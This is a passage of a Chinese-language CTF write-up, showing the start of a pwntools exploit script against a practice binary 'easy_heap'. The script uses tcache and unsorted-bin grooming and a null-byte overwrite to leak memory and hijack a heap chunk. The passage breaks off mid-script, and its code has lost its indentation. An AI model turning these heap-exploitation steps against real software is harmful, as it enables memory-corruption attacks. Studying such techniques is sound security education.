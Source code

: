 ### 三、EXPLOIT

这两种思路具体怎么实施呢？下面分别给出作者根据第一种和第二种思路开发的exp：

EXP1：利用u2t转移

```
from pwn import *
#ARCH SETTING
context(arch = 'amd64' , os = 'linux')
r = process('./easy_heap')
#r = remote('127.0.0.1',9999)
```



```
#FUNCTION DEFINE
def new(size,content):
r.recvuntil("?n&gt; ")
r.sendline("1")
r.recvuntil("size n&gt; ")
r.sendline(str(size))
r.recvuntil("content n&gt; ")
r.send(content)

def newz():
r.recvuntil("?n&gt; ")
r.sendline("1")
r.recvuntil("size n&gt; ")
r.sendline(str(0))

def delet(idx):
r.recvuntil("?n&gt; ")
r.sendline("2")
r.recvuntil("index n&gt; ")
r.sendline(str(idx))

def echo(idx):
r.recvuntil("?n&gt; ")
r.sendline("3")
r.recvuntil("index n&gt; ")
r.sendline(str(idx))

#MAIN EXPLOIT

#memory leak
for i in range(10):
newz()
#choose chunk0 2 4 into unsorted bin
delet(1)
delet(3)
for i in range(5,10):
delet(i)
#now tcache filled ,waiting queue is idx.1 , 3 , 5~10
#make unsorted bin: ustbin -&gt; 4 -&gt; 2 -&gt; 0 ,then chunk2 will be leak_target_chunk
delet(0)
delet(2)
delet(4)
#waiting queue is idx.0~10chunk9~5 , 3 , 1 ,and now all chunks was freed ,heap was null
#clean tcache
for i in range(7):
newz() #chunk3 is idx.5 (987653:012345)
#unsorted_bin trans to tcache
newz() #idx.7:pushing 0x00 on the lowest byte will hijack leak_target_chunk.BK's fd bingo on target!
```